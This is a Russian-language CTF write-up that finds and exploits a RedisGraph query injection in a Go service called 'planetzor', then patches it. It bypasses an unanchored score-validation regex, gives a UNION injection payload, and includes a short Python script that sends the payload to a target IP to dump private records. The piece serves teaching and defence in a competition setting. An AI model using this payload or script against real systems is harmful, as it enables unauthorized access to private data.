 # Инъекция в planetzor
## Поиск уязвимости
Сервис написан на Go. Основной файл - main.go
Для работы с базой данных используется файл db/db.go

Одна из самых частых ошибок - инъекции в запросы к базе данных. Посмотрим какие базы данных используются здесь:

![](https://raw.githubusercontent.com/ArturLukianov/StayHomeWriteup/master/images/Screenshot%20from%202020-05-05%2018-50-33.png)

Используется redis и redisgraph. Поищем, не используется ли где сырой запрос в базу данных:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-09-31.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-07-36.png)

Поищем, где используется функция graphQuery():
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-03.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-14.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-08-27.png)
graphQuery() экранирует двойные кавычки, поэтому отбросим то, где ввод находится между кавычек. Ещё отбросим то, где ввод вообще не используется. Тогда останется только одна функция с сырым запросом, который мы можем эксплуатировать:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-09-31.png)

Посмотрим как мы можем проэксплуатировать запрос:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-32-59.png)

Параметр "planet" экранируется - это нам не подходит

Зато параметр score не экранируется. Попробуем payload.

## Разработка payload

Находим [документацию](https://oss.redislabs.com/redisgraph/commands/). Сделаем UNION инъекцию.

```
MATCH (r:Review {private: FALSE, planet: "planet"}) WHERE r.score = 1 RETURN r UNION MATCH (r:Review)
```
Ограничим вывод публичных записей, они нам не нужны:
```
MATCH (r:Review {private: FALSE, planet: "%s"}) WHERE r.score = 1 RETURN r LIMIT 1 UNION MATCH (r:Review {private: TRUE})
```

Итоговый payload:
```
1 RETURN r LIMIT 1 UNION MATCH (r:Review)
```

## Поиск точки эксплуатации

Мы нашли, что эксплуатировать и как. Осталось найти url и в каком виде передавать параметры:
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-12-37.png)
![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2018-30-40.png)

Параметры передаются в GET запросе и не требуют аутентификации

Тут можно заметить, что параметр score проверятся score с помощью ValidateScore, который мешает эксплуатации

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2019-42-20.png)

## Обход ValidateScore

Регулярное выражение неправильно - оно проверяет на наличие хотя бы одного символа подходящего под [1-5], и такой присутствует в нашем payload. Обойдено.

## Эксплуатация

Протестируем наш payload.
Вначале создадим приватную запись с "флагом":
Проверим, что флаг не отображается публично:
Попробуем использовать наш payload:
Отлично, всё работает!

Сделаем sploit для destructive farm:
```
import requests
import sys

payload = "1 RETURN r LIMIT 1 UNION MATCH (r:Review)"

ip = sys.argv[1]
url = "http://" + ip + ":4000/reviews"
print(requests.get(url, params={'score': payload}).text)
```

##  Патчинг

Для патчинга достаточно починить регулярное выражение:

![](https://github.com/ArturLukianov/StayHomeWriteup/blob/master/images/Screenshot%20from%202020-05-05%2019-42-20.png)

`^[1-5]$`
